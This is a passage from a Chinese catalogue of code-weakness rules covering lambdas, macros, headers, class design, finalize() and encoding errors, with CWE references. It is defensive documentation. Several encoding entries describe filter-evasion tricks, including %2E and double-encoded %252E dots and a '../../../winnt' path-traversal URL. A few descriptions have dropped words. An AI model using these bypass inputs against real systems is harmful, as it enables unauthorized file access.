lambda 表达式是一种匿名函数，允许在代码中定义一个小的、简单的函数，通常用于简化代码和提高可读性。然而， lambda 表达式也存在局限，需要合理使用，避免滥用带来代码隐患。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1340-000 不合理的lambda表达式

---

# CWD-1341 使用复杂的lambda表达式

**描述**
如果lambda表达式的内容太复杂的话，代码可读性会变差，使人难以理解，建议使用常规函数来代替。

**语言: **CPP,JAVA,ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1341-000 使用复杂的lambda表达式

---

# CWD-1342 将lambda表达式赋值给变量时，未使用常规函数

**描述**
lambda表达式赋值给变量，返回的错误堆栈信息中，显示也是，从而会导致调试困难。

**语言: **CPP,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1342-000 将lambda表达式赋值给变量时，未使用常规函数

---

# CWD-1343 使用lambda作为decltype 或 typeid 的操作数

**描述**
lambda 表达式的类型（也是闭包对象的类型）是唯一的、未命名的非联合类类型[…]。每个 lambda 表达式都有一个不同的唯一底层类型，因此该类型不能用作 decltype 或 typeid 参数。允许使用它作为模板参数和函数参数。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1343-000 使用lambda作为decltype 或 typeid 的操作数

---

# CWD-1344 不合理的模板与泛型编程

**描述**
在使用模板和泛型编程时，需要谨慎地考虑它们的使用场景和限制，防止影响代码的正确性。如：模板的实例化是否正确、泛型参数的类型是否匹配。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1344-000 不合理的模板与泛型编程

---

# CWD-1345 模板的所有部分和显式特殊化未都放在该模板本身所在的文件中

**描述**
模板声明、定义、特殊化、模板参数定义等放在不同的文件中，会导致实例化的时候编译错误或编译结果非预期。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1345-000 模板的所有部分和显式特殊化未都放在该模板本身所在的文件中

---

# CWD-1346 创建泛型化的数组时，未优先使用泛型集合

**描述**
泛型是不可变的，数组是协变的。当向数组中添加类型不匹配的元素时，在运行期才会发生错误，而对于集合，在编译期就会报错。另外，由于类型不安全无法创建泛型数组。泛型与数组不能很好地混合使用，如果需要使用一个“泛型化的数组”，更好地选择是使用集合。

**语言: **JAVA,JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1346-000 创建泛型化的数组时，未优先使用泛型集合

---

# CWD-1347 声明泛型类时未限制可用的泛型类型

**描述**
<? extends T>实现了泛型的协变，表现在泛型集合中，适合从集合中读取元素，不能添加元素。<? super T>实现了泛型的逆变，表现在泛型集合中，适合向集合中添加元素，不适合读取元素。
Collections的一个典型的使用场景：public static <T> void copy(List<? super T> dest, List<? extends T> src)**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1347-000 声明泛型类时未限制可用的泛型类型

---

# CWD-1348 预处理使用不当

**描述**
预处理是指在编译过程中对源代码进行预处理，主要包括宏定义、条件编译等功能。但是过度或不正确使用宏定义和条件编译等功能会使代码变得复杂难懂，降低代码的可维护性。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1348-000 预处理使用不当

---

# CWD-1349 未使用函数代替函数式宏

**描述**
宏无法进行类型检查和错误检测，因此定义函数式宏前，应考虑能否用函数替代。对于可替代场景，建议用函数替代宏。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1349-000 未使用函数代替函数式宏

---

# CWD-1350 函数式宏的参数有副作用

**描述**
由于宏只是文本替换，对于内部多次使用同一个宏参数的函数式宏，将带副作用的表达式作为宏参数传入会导致非预期的结果。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1350-000 函数式宏的参数有副作用

---

# CWD-1351 函数式宏中使用了不必要的改变程序流程的语句

**描述**
宏中使用 return、goto、continue、break等改变流程的语句，虽然能简化代码，但同时也隐藏了真实流程，不易于理解，存在过度封装，容易导致资源泄漏等问题。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1351-000 函数式宏中使用了不必要的改变程序流程的语句

---

# CWD-1352 函数式宏调用的参数中包含预编译指令

**描述**
如果函数式宏的参数包括预处理器指令，如#include，#define和#ifdef，这样做会导致未定义的行为。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1352-000 函数式宏调用的参数中包含预编译指令

---

# CWD-1353 宏定义以分号结尾

**描述**
当宏定义的结尾有分号时，从代码中难以直观发现语句的结束，还可能导致额外的分号的增加，进而可能改变程序流程。

**语言: **C,CPP,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1353-000 宏定义以分号结尾

---

# CWD-1354 宏定义依赖宏外部的局部变量名

**描述**
如果宏定义中直接使用宏外部的局部变量名，会导致宏的可重用性差，而且不利于理解。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1354-000 宏定义依赖宏外部的局部变量名

---

# CWD-1355 使用宏来表示常量

**描述**
使用宏表示常量时，宏只是简单的文本替换、没有类型检查、没有作用域、无法进行断点调试。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1355-000 使用宏来表示常量

---

# CWD-1356 lambda中使用 __func__、__FUNCTION__ 等宏

**描述**
lambda 中使用 **func**、 **FUNCTION** 等宏来获取函数名，通常只能得到 operator()，这大部分情况下是不符合预期的。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1356-000 lambda中使用 __func__、__FUNCTION__ 等宏

---

# CWD-1357 宏定义不是完整的语句

**描述**
使用不完整的宏定义，例如`#define FOR_EACH_START(datas) for (auto data:datas) { `，它的使用会引起代码结构混乱，也不易于理解。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1357-000 宏定义不是完整的语句

---

# CWD-1358 未使用其它方法代替预处理宏

**描述**
预处理宏不遵循链接、查找和函数调用语义，因此除头文件保护场景外，其它场景不建议使用。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1358-000 未使用其它方法代替预处理宏

---

# CWD-1359 预处理宏参数不符合标准形式

**描述**
与定义相关的预处理器操作符只允许有如下两种形式：defined (identifier)defined identifier任何其他形式都是违反约束的。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1359-000 预处理宏参数不符合标准形式

---

# CWD-1360 头文件使用不当

**描述**
头文件使用不当可能导致编译错误、符号冲突等问题，需要遵循良好的编程实践，避免不必要的公开接口、重复包含和不合理的包含顺序。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1360-000 头文件使用不当

---

# CWD-1361 在头文件中声明了不必要的对外公开接口

**描述**
正确的做法是只在头文件中声明必要的对外公开接口，如函数、类、结构体和枚举等。私有API和实现细节应该在源文件中定义和实现，以避免暴露给外部用户。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1361-000 在头文件中声明了不必要的对外公开接口

---

# CWD-1362 头文件未自包含

**描述**
头文件自包含是指一个头文件被其它文件包含，不需要再引入其它额外依赖的头文件，这样可以避免编译错误和耦合度增加。如果头文件不自包含，编译器将无法找到所需的声明，导致编译错误。例如，如果头文件 A 依赖于头文件 B，但头文件 A 没有包含头文件 B，那么每个使用头文件 A 的文件，为了让引入的A的内容编译通过，都要包含额外的头文件B。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1362-000 头文件未自包含

---

# CWD-1363 头文件重复包含

**描述**
头文件重复包含是指同一个头文件被多次包含，从而导致重定义，引发编译报错。例如，在C/C++语言中，可以使用#define 宏来防止头文件重复包含，但这需要确保保护符的唯一性，以免仍然导致重复包含。

**语言: **C,CPP,FILE,MICROCODE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1363-000 头文件重复包含

---

# CWD-1364 未通过包含头文件引用外部接口

**描述**
未通过包含头文件的方式使用其他模块或文件提供的接口。例如，通过声明的方式使用外部函数接口、变量，容易在外部接口改变时导致声明和定义不一致，同时这种隐式依赖，容易导致架构腐化。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1364-000 未通过包含头文件引用外部接口

---

# CWD-1365 在 extern "C" 中包含头文件

**描述**
extern "C" 通常出现在 C，C++ 混合编程的情况下，在 extern "C"中包含头文件，可能会导致被包含头文件的原有意图遭到破坏，比如链接规范被不正确地更改。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1365-000 在 extern "C" 中包含头文件

---

# CWD-1366 头文件包含顺序不合理

**描述**
头文件包含顺序不合理，可能会导致编译错误或者程序运行时出现未定义的行为。例如：C语言建议按稳定度包含头文件，依次顺序为：C标准库，操作系统库，平台库，项目公共库，自己其他的依赖。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1366-000 头文件包含顺序不合理

---

# CWD-1367 在#include之前使用using导入namespace

**描述**
在#include 之前使用using 导入namespace会影响后续代码，易造成符号冲突。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1367-000 在#include之前使用using导入namespace

---

# CWD-1368 #include包含文件的语法错误

**描述**
`#include 文件名`是错误的语法，正确的语法是：`#include <文件名>`或`“include "文件名"`。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1368-000 #include包含文件的语法错误

---

# CWD-1369 包导入不当

**描述**
包的导入不合理，包括未使用绝对路径、导入顺序不合理等，导致代码维护和性能问题。

**语言: **ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1369-000 包导入不当

---

# CWD-1370 未使用绝对路径导入包

**描述**
在导入包时，使用相对路径可能会受到当前工作目录的影响，这在不同的环境中可能会有所不同。此外，涉及多个父级目录还会使代码变得混乱和难以维护。为确保代码的可读性、可移植性和正确性，建议在导入包时使用绝对路径。

**语言: **PYTHON,GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1370-000 未使用绝对路径导入包

---

# CWD-1371 使用别名导入包

**描述**
用别名导入包，如果别名不够明确，或与其他名称冲突，可能会导致代码的维护难度增加、可读性下降。

**语言: **GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1371-000 使用别名导入包

---

# CWD-1372 包导入顺序不合理

**描述**
包导入顺序可能会导致以下问题：


1. 命名冲突：如果两个不同的包中都有同名的模块或变量，那么导入顺序可能会影响哪个模块或变量被使用。2. 循环依赖：如果两个或多个包相互依赖，那么导入顺序可能会导致循环依赖问题，从而导致程序崩溃或出现其他异常。3. 性能问题：如果导入的包中包含大量的代码或资源文件，那么导入顺序可能会影响程序的启动时间和性能。
因此，为了避免这些问题，建议使用合理的包导入顺序。例如：Go语言建议的顺序：标准库，第三方库，本项目的库。

**语言: **JAVA,PYTHON,GO,KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1372-000 包导入顺序不合理

---

# CWD-1373 不正确的修改sys.path导致模块路径加载顺序不当

**描述**
sys.path是Python在执行import语句时搜索模块使用的路径列表，由当前目录、系统环境变量、库目录、.pth文件配置组合拼装而成，直接修改之后将作用于当次Python进程运行生命周期内所有import语句。原则上sys.path只应该根据用户的系统配置来生成，默认的sys.path应该就可以支持模块的搜索过程，不应该在代码里面直接修改。如果确实需要修改，则需要注意尽量不要影响其它模块搜索sys.path的顺序，否则可能导致某些import语句因为搜索到了错误的模块，导入不了相应的符号而出现ImportError异常。

在修改sys.path时注意避免模块重名导致的导入失败，建议使用sys.path.append代替sys.path.insert(0, my_directory)。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1373-000 不正确的修改sys.path导致模块路径加载顺序不当

---

# CWD-1374 类使用不当

**描述**
类的常见使用不当场景包括拷贝和移动语义、继承和重载、构造和析构等方面的错误使用。

**语言: **CANGJIE,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1374-000 类使用不当

---

# CWD-1375 父类有虚析构，子类没有虚析构

**描述**
父类有虚析构方法，但是子类没有虚析构方法，会导致子类的资源无法释放，进而导致内存泄漏。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1375-000 父类有虚析构，子类没有虚析构

**业界缺陷**

- [CWE-1045: Parent Class with a Virtual Destructor and a Child Class without a Virtual Destructor](https://cwe.mitre.org/data/definitions/1045.html)
---

# CWD-1376 没有虚析构函数的父类方法

**描述**
父类包含一个或多个子类，但是父类没有虚析构，那么当一个子类对象被销毁时，只会调用子类的析构函数，而不会调用父类的析构函数，这可能导致内存泄漏或。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1376-000 没有虚析构函数的父类方法

**业界缺陷**

- [CWE-1079: Parent Class without Virtual Destructor Method](https://cwe.mitre.org/data/definitions/1079.html)
---

# CWD-1377 在类对象的成员函数中删除该对象本身

**描述**
类对象调用方法或函数来删除或销毁自自己，在此之后再访问到该对象的成员时，可能造成未定义行为。例如，在C++中，delete this操作是自己销毁自己。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1377-000 在类对象的成员函数中删除该对象本身

**业界缺陷**

- [CWE-1082: Class Instance Self Destruction Control Element](https://cwe.mitre.org/data/definitions/1082.html)
---

# CWD-1378 类有虚函数，但是没有虚析构

**描述**
一个类中包含一个虚方法，但是没有预置对应的虚析构，如果此虚函数被子类继承并重写，当通过父类指针释放子类时，只会调用父类的析构函数，不会调用子类的析构函数，导致内存泄漏。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1378-000 类有虚函数，但是没有虚析构

**业界缺陷**

- [CWE-1087: Class with Virtual Method without a Virtual Destructor](https://cwe.mitre.org/data/definitions/1087.html)
---

# CWD-1379 类继承时未显式指定访问修饰符

**描述**
当一个类派生自基类，该基类可以被继承为 public、protected 或 private 类型，如果未显式指定访问修饰符，默认为private，这可能会导致访问权限错误、代码难以理解和维护。因此，在设计继承类时，明确指定访问修饰符是一个良好的做法，可以确保成员的访问控制权，避免意外的行为，并提高代码的可读性和可维护性。

**语言: **CPP,JAVA,TYPESCRIPT,ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1379-000 类继承时未显式指定访问修饰符

---

# CWD-1380 使用虚继承

**描述**
虚继承，即在继承的时候加上virtual关键字。当一个类被声明为虚继承时，它的派生类会共享一个基类对象，而不是每个派生类都有自己的基类对象。这样可以避免多重继承中的“菱形继承”问题。使用虚继承将引入很多未定义的行为容易导致非预期的行为，不推荐使用虚继承。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1380-000 使用虚继承

---

# CWD-1381 子类中虚函数的缺省参数值不正确

**描述**
虚函数是动态绑定的，但函数的缺省参数却是在编译时就静态绑定的。这意味着最终执行的函数是一个定义在派生类，但使用了基类中的缺省参数值的虚函数。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1381-000 子类中虚函数的缺省参数值不正确

---

# CWD-1382 子类未正确重写父类的方法

**描述**
在子类中重写虚函数时未明确指定override或final，可能导致误以为重写，但实际上重定义。

**语言: **CPP,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1382-000 子类未正确重写父类的方法

---

# CWD-1383 重新定义public继承而来的非虚函数

**描述**
如果在派生类中重新定义了public继承而来的非虚函数，则将派生类的引用或指针转换为基类的引用或指针后，将调用到不同的函数，可能得到非预期的结果。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1383-000 重新定义public继承而来的非虚函数

---

# CWD-1384 类的重载操作符不正确

**描述**
重载操作符可能改变操作符原有语义。

**语言: **CPP,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1384-000 类的重载操作符不正确

---

# CWD-1385 拷贝构造函数和拷贝赋值操作符未同时声明

**描述**
如果声明了拷贝构造函数，这意味着类有特殊的拷贝逻辑，而编译器生成的拷贝赋值操作符可能不会正确工作。类似地，如果声明了拷贝赋值操作符，也应该声明拷贝构造函数，以确保一致的行为。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1385-000 拷贝构造函数和拷贝赋值操作符未同时声明

---

# CWD-1386 移动构造函数和移动赋值操作符未同时声明

**描述**
如果声明了移动构造函数，这意味着类有特殊的移动逻辑，而编译器生成的移动赋值操作符可能不会正确工作。类似地，如果声明了移动赋值操作符，也应该声明移动构造函数，以确保一致的行为。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1386-000 移动构造函数和移动赋值操作符未同时声明

---

# CWD-1387 多态基类中的拷贝构造函数、拷贝赋值操作符、移动构造函数、移动赋值操作符声明错误

**描述**
当多态基类具有public声明的拷贝构造函数、拷贝赋值操作符、移动构造函数或移动赋值操作符且未delete时，将派生类对象直接赋值给基类对象可能会导致对象切片，只拷贝或移动基类部分，从而损害多态行为。为避免此问题，可将以上函数声明为非public函数或者为delete函数。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1387-000 多态基类中的拷贝构造函数、拷贝赋值操作符、移动构造函数、移动赋值操作符声明错误

---

# CWD-1388 将虚函数声明为内联函数

**描述**
将虚函数声明为内联函数是无效的，因为虚函数是动态绑定，而内联函数是替换函数调用位置。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1388-000 将虚函数声明为内联函数

---

# CWD-1389 移动构造函数或移动赋值操作符的参数是const的右值引用

**描述**
移动构造函数或移动赋值操作符是移动参数的资源（如内存），如果参数是const的右值引用，那么意味着不能修改该对象，进而导致该对象的值无法移动。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1389-000 移动构造函数或移动赋值操作符的参数是const的右值引用

---

# CWD-1390 类的静态方法被定义成非静态方法

**描述**
类的方法不需要访问实例时，使用普通的实例方法定义虽然可以实现功能，但会在使用时要求必须由类的实例调用此方法。这就造成使用过程中一次冗余的实例生成、回收过程，代码本身编写和阅读时也显得冗余。

**语言: **C,CPP,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1390-000 类的静态方法被定义成非静态方法

---

# CWD-1391 成员函数的定义被放在类定义中

**描述**
定义成员函数时，通常不建议将其定义放在类定义中，因为这会增加代码的阅读和维护难度。然而，在特定情况下，成员函数的定义可以放在类定义中，例如当成员函数是内联函数、模板函数或类自身是模板类时。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1391-000 成员函数的定义被放在类定义中

---

# CWD-1392 在构造函数和析构函数中调用虚函数

**描述**
在构造函数和析构函数中调用虚函数，会导致未实现多态。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1392-000 在构造函数和析构函数中调用虚函数

---

# CWD-1393 字面量运算符执行了转换入参之外的操作

**描述**
字面量运算符（Literal Operator）是 C++11 中引入的一种语言特性，它允许用户定义的类型使用字面值。例如处理整数字面值`42_my`，定义`void operator""_my(int x) { // 运算符函数的实现 }`。用户定义字面量的运算只允许对入参进行转换并输出，不允许产生其它操作。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1393-000 字面量运算符执行了转换入参之外的操作

---

# CWD-1394 拷贝或移动操作符函数内未处理自赋值情况

**描述**
用户自定义的拷贝和移动构造函数需要阻止自赋值，从而防止对象变成一种不确定的状态。如果传入的参数就是对象自身，销毁对象中资源的操作将使对象变得无效，违背拷贝和移动构造的结果要求。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1394-000 拷贝或移动操作符函数内未处理自赋值情况

---

# CWD-1395 指向不完整类类型的指针被删除

**描述**
不完整的类类型是预先声明的类类型，编译器还没有看到它们的定义。如果一个指向不完整类类型的指针被删除，并且该类有一个非平凡的析构函数或重分配函数，则这是未定义行为。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1395-000 指向不完整类类型的指针被删除

---

# CWD-1396 转发引用导致的重载歧义

**描述**
转发引用是一种可以绑定到左值和右值的引用。它使用通用引用语法声明，例如 T&&。转发引用通常用于泛型编程，以保留原始参数的值类别（左值或右值）。在函数模板的重载中，如果一个函数模板使用了转发引用，而另一个函数模板使用了值传递或常量引用，则可能会导致编译器无法正确地确定使用哪个重载调用。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1396-000 转发引用导致的重载歧义

---

# CWD-1397 未正确编码或解码数据(Encoding Error)

**描述**
无法正确地编码或解码数据，导致数据解析出错易被攻击。编码：外部输入（被恶意进行编码后）的文本或数据，程序对解码的字符过滤（仅考虑了对未编码的字符过滤）不准确，导致外部输入攻击。解码：外部输入（被恶意进行编码后，编码了多次）的文本或数据，程序对解码的字符过滤（进行解码的次数少于输入的编码次数）不准确，导致外部输入攻击。

**语言: **CPP,JAVA,RUST

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1397-000 未正确编码或解码数据(Encoding Error)

**业界缺陷**

- [CWE-172: Encoding Error](https://cwe.mitre.org/data/definitions/172.html)
---

# CWD-1398 替代编码处理不当

**描述**
在处理文本或数据，数据符合程序可解析的有效替代编码时，程序无法正确处理。数据或文本使用了不同于标准编码的替代编码，可能会导致解析错误或数据损坏，这种情况在跨平台或跨语言处理数据时尤其常见。攻击者利用可能对应用程序使用的潜在有害输入或内容进行编码，从而使应用程序在验证此编码标准时无效。例如：一个点（.）经常用于路径遍历攻击，因此经常被过滤器阻止，攻击者直接将（.）作URL编码为%2E。但是，过滤器未识别这种编码，目标上的解释器仍然可以将其解释为点（.）。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1398-000 替代编码处理不当

**业界缺陷**

- [CWE-173: Improper Handling of Alternate Encoding](https://cwe.mitre.org/data/definitions/173.html)
---

# CWD-1399 同一数据的双重解码

**描述**
对用户输入文本或数据进行多次解码，可能导致保护机制被绕过或减弱，从而导致安全问题。攻击者利用一组字符（即字符编码）的重复编码过程来混淆特定请求的有效负载。例如：一个点（.）经常用于路径遍历攻击，因此经常被过滤器阻止，它可以被URL编码为%2E。但是，许多过滤器识别这种编码，并且仍然会阻止请求。在双重编码中，上述URL编码中的%将再次编码为%25，从而导致%252E，某些过滤器可能无法捕获，但目标上的解释器仍然可以将其解释为点（.）。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1399-000 同一数据的双重解码

**业界缺陷**

- [CWE-174: Double Decoding of the Same Data](https://cwe.mitre.org/data/definitions/174.html)
---

# CWD-1400 混合编码处理不当

**描述**
当同一输入使用多个不同的编码方式时，但没有正确地处理它们之间的转换关系，导致出现了意外的结果。常见的编码方式包括：URL编码、HTML编码、Unicode编码等。

**语言: **CPP,JAVA,SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1400-000 混合编码处理不当

**业界缺陷**

- [CWE-175: Improper Handling of Mixed Encoding](https://cwe.mitre.org/data/definitions/175.html)
---

# CWD-1401 Unicode编码处理不当

**描述**
当输入包含Unicode编码时，没有正确地处理。攻击者可以向不支持Unicode的系统组件提供Unicode字符串，并使用它来绕过过滤器或导致分类机制无法正确理解请求。这可能允许攻击者将恶意数据滑过内容过滤器和/或可能导致应用程序错误地路由请求。例如：http://target.server/some_directory/../../../winnt攻击者试图遍历到不应该是标准Web服务的一部分的目录。这个技巧是相当明显的，所以很多Web服务器和脚本阻止它。然而，使用替代编码技巧，攻击者可能能够绕过错误实现的请求过滤器。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1401-000 Unicode编码处理不当

**业界缺陷**

- [CWE-176: Improper Handling of Unicode Encoding](https://cwe.mitre.org/data/definitions/176.html)
---

# CWD-1402 URL编码处理不当（十六进制编码）

**描述**
当输入的数据或文本，被部分或全部编译为URL编码时，程序没有正确地处理输入数据。URL可能包含特殊字符，这些特殊字符需要特殊的语法处理才能被解释。特殊字符使用百分比字符表示，后跟两位数字表示原始字符的八位字节代码（%HEX-CODE）。例如，US-ASCII空格字符将用%20表示。这通常被称为转义结尾或百分比编码。由于服务器从请求中解码URL，因此它可以通过验证和过滤它接收到的URL请求来限制对某些URL路径的访问。攻击者将尝试使用特殊字符序列精心制作URL，这些特殊字符一旦被服务器解释，就相当于被禁止的URL。由于URL可能包含其他格式的编码（如UTF-8编码、Unicode编码等），因此很难防御此攻击。攻击者还可以通过对通过GET请求发送到服务器的数据进行编码来破坏URL字符串请求的含义。例如，攻击者可能会破坏SQL请求中使用并通过URL字符串发送的参数的含义（请参阅示例部分）。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1402-000 URL编码处理不当（十六进制编码）

**业界缺陷**

- [CWE-177: Improper Handling of URL Encoding (Hex Encoding)](https://cwe.mitre.org/data/definitions/177.html)
---

# CWD-1403 未正确使用CGO特性

**描述**
CGO提供了Go语言和C语言相互调用的机制，使得Go语言能够快速的继承C/C++大量的软件积累。但是，由于CGO的使用会打破Go语言本身的内存安全机制；另外，Go的环境转入C代码执行前，必须为C新创建一个新的调用栈，把栈变量赋值给C调用栈，调用结束后再拷贝回来，这个调用开销非常大。因此需要谨慎使用CGO。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1403-000 未正确使用CGO特性

---

# CWD-1404 直接将C代码嵌入在Go文件中

**描述**
CGO中被调用的C代码，可以直接以源代码形式嵌入在Go文件中，或者打包为静态库/动态库。由于直接以源代码形式嵌入在Go文件中，可读性、可维护性较差并且不利于工具检测，因此建议采用打包为静态库/动态库的方式。

**语言: **GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1404-000 直接将C代码嵌入在Go文件中

---

# CWD-1405 在CGO中使用C代码调用Go函数

**描述**
在CGO中使用C代码调用Go函数，会出现以下两种情形，可能会导致系统崩溃问题：


1. 被C函数调用的Go语言函数中再调用C函数2. 被Go函数调用的C语言函数中再调用Go函数因此，在CGO中避免使用C代码调用Go函数。
**语言: **C,GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1405-000 在CGO中使用C代码调用Go函数

---

# CWD-1406 显式调用finalize(）

**描述**
从终结器外部显式调用了 finalize() 方法。例如：显式调用final()意味着将多次调用final()：第一次是显式调用，最后一次是对象被垃圾回收后进行的调用。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1406-000 显式调用finalize(）

**业界缺陷**

- [CWE-586: Explicit Call to Finalize()](https://cwe.mitre.org/data/definitions/586.html)
---

# CWD-1407 覆写finalize()

**描述**
finalize()方法调用时机不确定：从一个对象不再使用到对象的finalize()方法被调用，这中间的时长是不固定的（可能带来严重的性能损耗），所以无法在finalize()方法中实现任何时间敏感的操作，如关闭文件操作。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1407-000 覆写finalize()

---

# CWD-1408 调用System.runFinalization()与Runtime.runFinalization()

**描述**
即使是主动调用System.gc()和System.runFinalization()，也仅会增加Finalizer机制被执行的几率，也不能保证一定会被执行。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1408-000 调用System.runFinalization()与Runtime.runFinalization()

---

# CWD-1409 finalize()声明为public

**描述**
将一个 finalize() 方法声明为public，违反了移动代码的安全编码原则。永远不应该显式调用final，除非在final()的实现内部调用super.finalize()。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1409-000 finalize()声明为public

**业界缺陷**

- [CWE-583: finalize() Method Declared Public](https://cwe.mitre.org/data/definitions/583.html)
---

# CWD-1410 封装不足

**描述**
未充分隐藏数据或方法的内部表示和实现细节，这可能会允许外部组件或模块意外地修改数据，调用意外的功能，或者引入程序员无意的依赖项。该问题增加了产品的维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：对字段封装不足，声明为public的变量允许远程读取系统属性，如用户名和主目录。

**语言: **CPP,JAVA,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1410-000 封装不足

**业界缺陷**

- [CWE-1061: Insufficient Encapsulation](https://cwe.mitre.org/data/definitions/1061.html)
---

# CWD-1411 类定义中使用友元声明

**描述**
在类定义中，使用 friend 关键字和非成员函数或其他类的名称，以允许其访问类的私有和受保护成员。友元可以破坏类的封装性，造成代码更难以维护。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1411-000 类定义中使用友元声明

---

# CWD-1412 关键数据元素声明为public/protected

**描述**
将关键数据设为 public 后，任何有权访问包含该变量的对象的人都可以随意更改或读取该值，这可能间接影响安全性。因此，数据应尽可能声明为私有或受保护的，以防止未授权的访问和操作。在大多数最终类中不要使用受保护（protected）方法，因为它们无法被子类化。只有在最终类扩展了具有受保护方法的其他类（其可见性不能降低）时才允许使用。使用私有（private）或包访问权限修饰符来明确您的意图。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1412-000 关键数据元素声明为public/protected

**业界缺陷**

- [CWE-766: Critical Data Element Declared Public](https://cwe.mitre.org/data/definitions/766.html)
---

# CWD-1413 当函数返回值个数较多时，未进行合理封装

**描述**
函数返回值过多，会导致代码可读性差，代码复杂度增加，难以理解。建议通过class/namedtuple/dataclass等具名形式进行封装。如：return name, age, gender, height, weight, education, religion，采用类进行数据封装后可改为return student。

**语言: **JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1413-000 当函数返回值个数较多时，未进行合理封装

---

# CWD-1414 无关代码

**描述**
